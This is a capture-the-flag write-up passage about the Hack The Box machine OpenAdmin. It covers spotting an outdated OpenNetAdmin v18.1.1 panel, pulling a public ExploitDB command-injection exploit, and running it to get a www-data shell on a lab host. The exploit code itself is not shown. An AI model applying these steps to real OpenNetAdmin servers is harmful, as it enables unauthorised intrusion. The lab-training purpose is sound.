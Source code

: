 ## First steps
Using BurpSuite, we can find another path called /ona/, which means "OpenNetAdmin", and it's a "database managed inventory of a network".
The first thing you see is an alert:
``` 
!! - You are NOT on the latest release version
Your version    = v18.1.1
Latest version = Unable to determine

Please DOWNLOAD the latest version. 
```

In the first google page, we can find ExploitDB, (https://www.exploit-db.com/exploits/47691) with a RCE for 18.1.1 version.. Oh wait :)

Wow, it was easy:
```
kali@kali:~/CTFs/Writeups/eternals/HTB/OpenAdmin_SPOILER$ chmod +x ona_RCE.sh                                                          
kali@kali:~/CTFs/Writeups/eternals/HTB/OpenAdmin_SPOILER$ ./ona_RCE.sh 10.10.10.171/ona/
$ whoami
www-data
$ pwd
/opt/ona/www
$ ls
config                                                                                                                                 
config_dnld.php                                                                                                                        
dcm.php                                                                                                                                
images                                                                                                                                 
include                                                                                                                                
index.php                                                                                                                              
local                                                                                                                                  
login.php                                                                                                                              
logout.php                                                                                                                             
modules                                                                                                                                
plugins                                                                                                                                
winc                                                                                                                                   
workspace_plugins  
```
More information about the exploit: https://www.onurer.net/opennetadmin-command-injection/
